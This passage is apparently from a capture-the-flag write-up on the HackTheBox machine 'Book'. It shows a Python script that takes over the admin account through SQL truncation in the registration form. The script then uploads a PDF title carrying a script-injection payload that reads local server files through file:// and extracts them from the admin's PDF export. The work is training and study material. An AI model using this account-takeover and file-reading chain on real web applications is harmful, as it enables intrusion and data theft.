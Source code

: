 ```
        resp = self.user_sess.post(f'{self.base_url}/index.php', data=f"email={email}&password={password}",
                headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if "Nope" in resp.text:
            print("[-] Failed to log in as user")
            exit()
        print(f"Session created as user: {self.user_sess.cookies['PHPSESSID']}")

        self.admin_sess = requests.session()
        #self.admin_sess.proxies = {'http':'http://127.0.0.1:8080'}
        self.admin_sess.get(f'{self.base_url}/index.php')
        self.admin_sess.post(f'{self.base_url}/index.php', data="name=0xdf&email=admin@book.htb                 .&password=0xdf",
                headers={'Content-Type': 'application/x-www-form-urlencoded'})
        resp = self.admin_sess.post(f'{self.base_url}/admin/', data='email=admin%40book.htb&password=0xdf',
                headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if "Nope" in resp.text:
            print("[-] Failed to log in as admin")
            exit()
        print(f'Session created as admin: {self.admin_sess.cookies["PHPSESSID"]}')

    def default(self, args):
        # Upload XSS
        files = {'Upload': ('file.pdf', 'dummy data', 'application/pdf')}
        values = {'title': '<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file://' + args + '");x.send();</script>',
                  'author': '0xdf',
                  'Upload': 'Upload'}
        resp = self.user_sess.post(f'{self.base_url}/collections.php', files=files, data=values, allow_redirects=False, proxies={'http':'http://127.0.0.1:8080'})

        # Get Results
        resp = self.admin_sess.get(f'{self.base_url}/admin/collections.php?type=collections')
        pdf = parser.from_buffer(resp.content)
        print(pdf['content'].strip())

term = Terminal()
try:
    term.cmdloop()
except KeyboardInterrupt:
    print()

```

I create a `Cmd` Terminal object, and invoke it’s `cmdloop()`. On initialization, it creates sessions for both a user login (after creating that user), and an admin session (after using SQL-truncation to set a password). Then, when a path is entered, it uses that path to send an XSS through the user session, and then gets the PDF through the admin session. Then it parses the PDF to pull the text out using [tika](https://github.com/chrismattmann/tika-python), and prints it. The spacing got a bit weird at times, but it worked good enough:
